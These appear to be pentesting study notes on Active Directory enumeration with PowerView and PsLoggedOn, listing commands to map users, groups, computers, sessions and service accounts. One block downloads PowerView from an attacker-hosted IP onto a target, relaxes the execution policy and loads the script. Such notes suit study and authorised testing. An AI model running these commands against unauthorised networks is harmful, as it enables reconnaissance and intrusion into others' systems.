 public:: true

- [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/#powerview) is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows "net *" commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.
- It can also:
	- Identify where on the network specific users are logged into.
	- Check which machines on the domain the current user has local administrator access on.
	- Enumerate and abuse domain trusts.
- Source code available [here](https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView.ps1). *(GH repository archived on Jan 21, 2021)*
- HackTricks docs [here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview).
- [SharpView](https://github.com/tevora-threat/SharpView) is a .NET port of PowerView. *(Last update was in 2018)*
- Upload it to the target Windows machine
	- ```powershell
	  curl "http://192.168.45.218:8000/PowerView.ps1" -o "PowerView.ps1"
	  Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
	  Import-Module .\PowerView.ps1
	  ```
- Enumeration
	- Log to the *target machine* as a domain user.
	  #+BEGIN_NOTE
	  Local users cannot query the Domain Controller.
	  #+END_NOTE
	- Upload/Download `PowerView.ps1` to a writable directory (e.g. `C:\Temp`)
	- Get a PowerShell terminal and load it in-memory
	  ```powershell
	  Import-Module .\PowerView.ps1
	  ```
	- Domain
		- Retrieve basic information about the domain
		  ```powershell
		  Get-NetDomain
		  ```
	- Users
		- Retrieve the list of all users in the domain
		  id:: 655b6438-2cff-4396-b2d2-a9cf0077d0bb
		  ```powershell
		  Get-NetUser | select cn
		  ```
		- Retrieve groups for a specific user
		  ```powershell
		  Get-NetGroup -UserName "joe"
		  ```
		- {{embed ((655cf631-e9b4-4a1f-99d0-45c801c69f8c))}}
	- Services
		- Retrieve the list of SPNs associated to AD user accounts
		  id:: 655e2809-8825-4c20-9dae-48a45f2a10b2
		  {{embed ((655e2029-2d0e-476f-9c58-c69ce7906fa7))}}
	- Groups
		- Retrieve the list of all groups in the domain
		  *[Here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#default-active-directory-security-groups) the list of the default AD groups. Useful to quickly spot custom domain groups.*
		  ```powershell
		  Get-NetGroup | select cn
		  ```
		- Retrieve members of a specific group.
		  ```powershell
		  Get-NetGroup "Sales Department" | select member
		  ```
		  *(This include unresolved [nested groups](((6559cd1a-af38-44ff-b7ba-396d3c250b67))))*
		- Retrieve a complete list of members of a specific group.
		  ```powershell
		  Get-NetGroupMember -Identity "Sales Department" -Recurse
		  ```
		  *(The `-Recurse` option will print the users inside [nested groups](((6559cd1a-af38-44ff-b7ba-396d3c250b67))))*
	- Computers
		- Retrieve the list of all domain joined computers
		  ```powershell
		  Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
		  ```
	- Permissions and Logged on Users
		- *Spraying* the environment to find possible *local administrative access* on computers under the current
		  user context
		  ```powershell
		  Find-LocalAdminAccess
		  ```
		  This command scans the network in an attempt to determine if our current user has administrative permissions on any computers in the domain.
		  The command relies on the [*OpenServiceW function*](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/active-directory-introduction-and-enumeration/manual-enumeration-expanding-our-repertoire/getting-an-overview-permissions-and-logged-on-users#fn1), which will connect to the *Service Control Manager* (SCM) on the target machines. The SCM essentially maintains a database of installed services and drivers on Windows computers. PowerView will attempt to open this database with the *SC_MANAGER_ALL_ACCESS* access right, which require administrative privileges, and if the connection is successful, PowerView will deem that our current user has administrative privileges on the target machine.
		- Retrieve logged users in other computers
			- With PowerView
				- It provides the `Get-NetSession` command which uses the [`NetWkstaUserEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmwksta/nf-lmwksta-netwkstauserenum) and [`NetSessionEnum`](https://learn.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum) APIs under the hood. The former requires administrative privileges, while the latter does not.
				  ```powershell
				  Get-NetSession -ComputerName files04 -Verbose
				  ```
				  `NetSessionEnum` got restricted since the following Windows versions, so it might no longer useful for this purpose.
					- Since Windows Server 2019 build 1809
					- Since Windows 10 build 1709
			- With [PsLoggedOn](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon), part of the [SysInternals Suite](https://learn.microsoft.com/en-us/sysinternals/). (*Download [here](https://download.sysinternals.com/files/PSTools.zip)*)
			  *An applet that displays both the locally logged on users and users logged on via resources for either the local computer, or a remote one.*
				- #+BEGIN_NOTE
				  PsLoggedOn relies on the *Remote Registry service* in order to scan the associated key.
				  
				  The *Remote Registry service* has not been enabled by default on Windows workstations since Windows 8, but system administrators may enable it.
				  
				  It is enabled by default on Windows Server 2012 R2, 2016 (1607), 2019 (1809), and 2022 (21H2).
				  #+END_NOTE
				- List users logged on specific computer
				  ```powershell
				  .\PsLoggedon.exe \\files04
				  ```
				- List all the computer where a specific user is loggeed
				  ```powershell
				  .\PsLoggedon.exe CORP\joe
				  ```
				  *Unfortunately, there are [many reports](https://www.reddit.com/r/sysadmin/comments/p4fffi/psloggedon_question/) [over the internet](https://4sysops.com/archives/psloggedon-view-logged-on-users-in-windows/#rtoc-3) showing that this last command* ***doesn't work most of the time***. *[Here](https://www.waynehoggett.com/2011/03/psloggedon-getting-started-on-windows.html) a use-case where it might work.*
				- #+BEGIN_NOTE
				  Note that PsLoggedOn will show you as logged on via resource share to remote computers that you query because a logon is required for PsLoggedOn to access the Registry of a remote system.
				  #+END_NOTE
		- Service Accounts
		  id:: 6559f91b-875c-4d67-b318-ebc7478a9d7a
		  *We want to check them because they might be members of [high-privileged groups](https://learn.microsoft.com/en-us/entra/architecture/service-accounts-on-premises).*
			- When applications like *Exchange*, *MSSQL*, or *IIS* are integrated into AD, a unique service instance identifier known as **Service Principal Name (SPN)** associates a service to a specific *service account* in Active Directory.
			- Since these types of accounts are used to run services, we can assume that they have more privileges than regular domain user accounts.
			- Enumerate SPNs in the domain
			  *No need to run a broad port scan, simply enumerating all SPNs in the domain by querying the DC.*
				- With [legacy Windows' tools](((6559cc20-1bf4-4d59-a498-f183b3ae7fc6)))
				- With PowerView
				  ```powershell
				  Get-NetUser -SPN | select samaccountname,serviceprincipalname
				  ```
